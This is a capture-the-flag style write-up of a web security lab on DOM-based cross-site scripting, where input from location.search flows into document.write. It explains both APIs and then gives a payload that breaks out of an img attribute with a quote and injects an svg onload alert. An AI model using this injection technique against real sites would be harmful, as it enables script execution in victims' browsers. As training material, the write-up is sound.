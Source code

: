 # DOM XSS in document.write sink using source location.search

> **************************Instructions**************************
> 
> 
> This lab contains a [DOM-based cross-site scripting](../../Cross-site%20Scripting%20(XSS)/Sub_Pages/DOM-based%20XSS.md) vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.
> 
> To solve this lab, perform a [cross-site scripting](../../Cross-site%20Scripting%20(XSS)/Cross-site%20Scripting%20(XSS).md) attack that calls the `alert` function
> 

# Overview Knowledge

### document.write

`document.write()` method writes a string of text to a document stream opened by `document.open()`

Example:

```html
<html lang="en">
  <head>
    <title>Write example</title>

    <script>
      function newContent() {
        document.open();
        document.write("<h1>Out with the old, in with the new!</h1>");
        document.close();
      }
    </script>
  </head>

  <body onload="newContent();">
    <p>Some original document content.</p>
  </body>
</html>
```

Output:

```html
Some original document content.
```

### location.search

The **`search`** property of the `Location` interface is a search string, also called a *query string*; that is, a string containing a `'?'` followed by the parameters of the URL.

Example:

```jsx
// Let an <a id="myAnchor" href="/en-US/docs/Location.search?q=123"> element be in the document
const anchor = document.getElementById("myAnchor");
const queryString = anchor.search; // Returns:'?q=123'

// Further parsing:
const params = new URLSearchParams(queryString);
const q = parseInt(params.get("q")); // is the number 123
```

# Lab Walkthrough

Access the ********Home******** page of the Lab:

```tsx
URL: https://0a900028049a64c5807cf35600ce000a.web-security-academy.net
```

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20images/Untitled.png)

Type a random simple string into the ************Search************ field:

```tsx
URL: https://0a900028049a64c5807cf35600ce000a.web-security-academy.net/?search=thisisDOM-basedXSS%40
```

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20images/Untitled%201.png)

Verify that your input string has been parsed into the `<img>` tag with `src` attribute:

```html
<img src="/resources/images/tracker.gif?searchTerms=thisisDOM-basedXSS@">
```

Use the `"` to break out the `<img>` tag and embed the `<svg>` with `onload` attribute to call the `alert()` function:

```
thisisDOM-basedXSS@"<svg onload=alert(1)>
```

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20images/Untitled%202.png)

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20images/Untitled%203.png)

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20images/Untitled%204.png)